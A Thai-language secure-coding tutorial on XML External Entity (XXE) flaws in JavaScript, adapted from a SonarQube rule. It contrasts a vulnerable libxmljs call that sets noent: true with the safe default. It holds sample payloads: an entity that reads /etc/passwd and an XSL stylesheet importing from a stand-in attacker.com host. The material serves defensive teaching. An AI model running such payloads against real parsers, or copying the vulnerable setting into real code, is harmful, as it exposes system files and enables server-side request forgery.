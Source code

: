 # [Code4Sec Week](https://www.facebook.com/hashtag/code4sec) / Day 4 - XML External Entities (XXE) in JavaScript.
[#NEIS0736](https://www.facebook.com/hashtag/neis0736) [#NECS0736](https://www.facebook.com/hashtag/necs0736)

![JavaScript](/images/JS.gif)

## XML parsers should not be vulnerable to XXE attacks

[XML specification](https://www.w3.org/TR/xml/) อนุญาตให้ใช้ entities ที่เป็น [internal](https://www.w3.org/TR/xml/#sec-internal-ent) หรือ [external](https://www.w3.org/TR/xml/#sec-external-ent) (file system / network access ...) ซึ่งอาจนำไปสู่ช่องโหว่เช่น ไฟล์ชั้นความลับถูกเปิดเผย หรือ [SSRFs](https://www.owasp.org/index.php/Server_Side_Request_Forgery).

ตัวอย่างในไฟล์ XML นี้ entity ภายนอกสามารถอ่านไฟล์ /etc/passwd ได้:

```
<?xml version="1.0" encoding="utf-8"?>
  <!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
  ]>
<note xmlns="http://www.w3schools.com" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <to>&xxe;</to>
  <from>Jani</from>
  <heading>Reminder</heading>
  <body>Don't forget me this weekend!</body>
</note>
```

ในไฟล์ XSL นี้อนุญาตให้เครือข่ายเข้าถึงได้ ซึ่งอาจนำไปสู่ช่องโหว่ SSRF :

```
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.attacker.com/evil.xsl">
  <xsl:import href="http://www.attacker.com/evil.xsl"/>
  <xsl:include href="http://www.attacker.com/evil.xsl"/>
 <xsl:template match="/">
  &content;
 </xsl:template>
</xsl:stylesheet>
It is recommended to disable access to external entities and network access in general.
```

**ตัวอย่างที่ไม่ปลอดภัย**

[libxmljs](https://github.com/libxmljs/libxmljs) module:

```
const libxmljs = require("libxmljs");
var fs = require('fs');

var xml = fs.readFileSync('xxe.xml', 'utf8');

var xmlDoc = libxmljs.parseXmlString(xml, { noblanks: true, noent: true, nocdata: true }); // Noncompliant: noent set to true
```

**แนวทางแก้ไขที่ถูกต้อง**

[libxmljs](https://github.com/libxmljs/libxmljs) module:

```
const libxmljs = require("libxmljs");
var fs = require('fs');

var xml = fs.readFileSync('xxe.xml', 'utf8');

var xmlDoc = libxmljs.parseXmlString(xml); // Compliant: noent set to false by default
```

**เพิ่มเติม**

* [OWASP Top 10 2017 Category A4](https://www.owasp.org/index.php/Top_10-2017_A4-XML_External_Entities_(XXE)) - XML External Entities (XXE)
* [OWASP XXE Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
* [MITRE, CWE-611](http://cwe.mitre.org/data/definitions/611.html) - Information Exposure Through XML External Entity Reference
* [MITRE, CWE-827](http://cwe.mitre.org/data/definitions/827.html) - Improper Control of Document Type Definition

**แหล่งที่มา**

[<img src="/images/sonarqube.svg" alt="SonarQube" height="50">](https://rules.sonarsource.com/javascript/RSPEC-2755)
